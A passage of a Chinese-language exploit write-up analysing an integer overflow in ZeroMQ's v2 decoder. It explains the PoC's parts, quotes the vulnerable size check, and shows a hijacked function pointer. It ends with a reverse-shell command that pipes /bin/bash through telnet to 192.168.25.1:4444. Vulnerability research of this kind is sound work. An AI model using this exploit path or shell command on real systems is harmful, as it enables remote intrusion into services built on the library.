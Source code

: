 执行./demo  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHKn8riclbooicVbunDicggYicHcty3CrJaqgYTpa6coM0cxAoX90CJ4HJX7Q/640?wx_fmt=other&from=appmsg "null")  
  
复现成功  
## POC分析  
  
poc主要包括下面四部分  
```
greeting
v2msg
plsize
content_t_replacement
```  
  
v2msg用于设置msg_size=0xffffffffffffffff，其中的0x2标识程序进入eight_byte_size_ready状态，调用zmq::v2_decoder_t::size_ready进行解析，zmq::v2_decoder_t::size_ready方法在做比较判断的时候，使用的read_pos_ + msg_size加法发生整型溢出，导致可绕过缓冲区大小校验进入else流程。else流程调用zmq::msg_t::init()方法，该方法不会重新分配缓冲区大小而直接处理数据。在后续流程中将造成缓冲区写越界。下面是源代码中存在漏洞的部分。  
```
if (unlikely (!_zero_copy
|| ((unsigned char *) read_pos_ + msg_size_
> (allocator.data () + allocator.size ())))) {
rc = _in_progress.init_size (static_cast<size_t> (msg_size_));
} else {
rc = _in_progress.init (const_cast<unsigned char *> (read_pos_),
static_cast<size_t> (msg_size_),
shared_message_memory_allocator::call_dec_ref,
allocator.buffer (), allocator.provide_content ());
if (_in_progress.is_zcmsg ()) {
allocator.advance_content ();
allocator.inc_ref ();
}
}
```  
  
plsize作为padding，长度为0x1FF7，使得content_t_replacement可以覆盖_u.zclmsg.content指向的结构体。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHK5nYeyB43uQxzrVGPMibF0ZFBuD5MrDcXjm1AvlmMoNCVuecT6JbXZfQ/640?wx_fmt=other&from=appmsg "null")  
  
ffn为函数指针，data和hint为两个参数的地址值，ffn将在tcp连接关闭的时候被zmq::msg_t::close()方法调用，看下图调试结果，成功执行了call 0xdeadbeaf  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHKq3mUUcB7uRjKJDkVSJ6EOwCe5KAOnMibpxlUhnd4sDVebZRjjPrSv1w/640?wx_fmt=other&from=appmsg "null")  
## 反弹Shell  
  
由于还不清楚如何泄露地址，这里基于没有开PIE的程序编写exp。  
  
通过分析POC，我们发现可以控制ffn，data和hint，即调用函数和两个参数，可以实现远程代码执行。  
  
那么我的目标是反弹shell，也就是执行  
```
system("mknod backpipe1 p && telnet192.168.25.1 4444 0<backpipe1 | /bin/bash1>backpipe1;")
```  
  
，当然这只是其中一种方式。  
  
